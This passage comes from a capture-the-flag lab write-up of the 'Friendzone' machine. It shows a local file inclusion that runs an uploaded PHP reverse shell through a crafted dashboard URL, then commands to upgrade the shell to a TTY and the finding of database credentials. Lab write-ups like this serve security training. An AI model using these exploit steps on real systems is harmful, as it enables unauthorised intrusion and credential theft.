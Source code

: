 The script appends `.php` to pagename argument and then it's executed.

Reminding that we have write permissions into `Development` directory from samba share folder, just need to upload a php reverse shell into it with the `put` command and then execute it from the website using the next URL:

```plaintext
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell
```

We got the reverse shell.

![11-nc](/assets/img/HTB/Friendzone/11-nc.png)

Now spawn a TTY Shell

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z
$ stty raw -echo;fg
$ reset
$ export TERM=xterm
$ export SHELL=bash
```
In `/var/www`, we see `mysql_data.conf` file containing credentials for user `friend`.

![12-creds](/assets/img/HTB/Friendzone/12-creds.png)
